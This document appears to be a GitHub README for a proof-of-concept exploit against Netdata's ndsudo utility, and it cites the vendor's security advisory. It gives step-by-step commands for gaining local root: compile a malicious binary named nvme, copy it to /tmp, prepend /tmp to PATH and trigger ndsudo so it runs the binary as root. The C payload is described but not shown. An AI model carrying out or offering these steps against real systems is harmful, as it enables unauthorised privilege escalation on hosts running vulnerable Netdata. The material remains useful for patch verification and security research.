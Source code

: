 
# Privilege Escalation via `ndsudo` (Netdata Local Exploit)

This POC is used to exploit a vulnerable `ndsudo` utility bundled with Netdata to escalate local privileges to root. The exploit works by injecting a malicious binary into the user’s `PATH` that impersonates a trusted command (`nvme`) and is executed with root privileges by `ndsudo`.

---

## Prerequisites & Assumptions

- You have **local shell access** on the target system.
- You can execute the following command but it fails with a "not found" or similar error:

  ```bash
  ./ndsudo nvme-list
  ```
---

### 1. Compile the Malicious Payload

On your **attacker machine** (or the vulnerable system if it has a compiler), compile a malicious binary (for example, from a file `poc.c`):

```bash
gcc poc.c -o nvme
```

This binary should be crafted to spawn a root shell or execute arbitrary commands with root privileges.

---

### 2. Transfer the Payload to the Target System

Move or upload the compiled `nvme` binary to a directory writable by your user, such as `/tmp`:

```bash
scp nvme user@target:/tmp/
# or use any file upload method you have
```

---

### 3. Prepare the Payload for Execution

On the **target system**, make sure the binary is executable and prepend its directory to your `PATH`:

```bash
chmod +x /tmp/nvme
export PATH=/tmp:$PATH
```

This ensures `ndsudo` will resolve and execute your malicious `nvme` instead of the legitimate one.

---

### 4. Trigger `ndsudo` to Execute Your Payload

Run the vulnerable command to trigger `ndsudo`:

```bash
./ndsudo nvme-list
```
---

## Resources

- Netdata Github Advisory: https://github.com/netdata/netdata/security/advisories/GHSA-pmhq-4cxq-wj93
